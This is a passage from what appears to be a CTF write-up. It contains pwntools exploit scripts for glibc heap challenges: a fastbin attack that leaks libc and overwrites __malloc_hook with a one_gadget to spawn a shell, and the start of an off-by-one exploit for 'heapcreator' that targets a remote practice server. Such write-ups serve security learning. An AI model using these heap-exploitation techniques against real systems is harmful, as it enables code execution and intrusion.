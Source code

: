 ```python
print(hex(main_arena_addr))
offset = libc.symbols['__malloc_hook'] + 0x10
libc_addr = main_arena_addr - offset

malloc_hook = libc_addr + libc.symbols['__malloc_hook']
add(0x80) #2
add(0x10) #4
add(0x10) #5
add(0x60) #6
payload2 = 'a'*(0x10) + p64(0) + p64(0x91)
fill(4, len(payload2), payload2)
free(5)
add(0x80) #5(has6)
fill(5, 0x20, 'a'*(0x10) + p64(0) + p64(0x71))
free(6)
payload3 = 'a'*(0x10) + p64(0) + p64(0x71) + p64(malloc_hook-0x23)
fill(5, len(payload3), payload3)
add(0x60) #6
add(0x60) #7(malloc)
fill(7, 0x13+0x8, 'a'*(0x13) + p64(libc_addr + one_gadget[4]))
add(0x10)
p.interactive()

```



## hitcontraining_heapcreator

off-by-one制造chunk over lapping

```python
from pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug('./heapcreator')

#pdbg.local("/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so", "/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so")
pdbg.remote("node4.buuoj.cn", 26356, "/home/xyc/share/s/libc-2.23_x64.so")

p = pdbg.run("remote")
elf = pdbg.elf
libc = pdbg.libc

#p = process(['/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so','./heapcreator'],env={"LD_PRELOAD":"/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})
#elf = ELF('./heapcreator')
#libc = ELF('/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

heaparray = 0x6020a0
setoff = 0x13

def add(size, content):
	p.recvuntil("Your choice :")
	p.send('1')
	p.recvuntil("Size of Heap : ")
	p.send(str(size))
	p.recvuntil("Content of heap:")
	p.send(content)

def edit(index, content):
	p.recvuntil("Your choice :")
	p.send('2')
```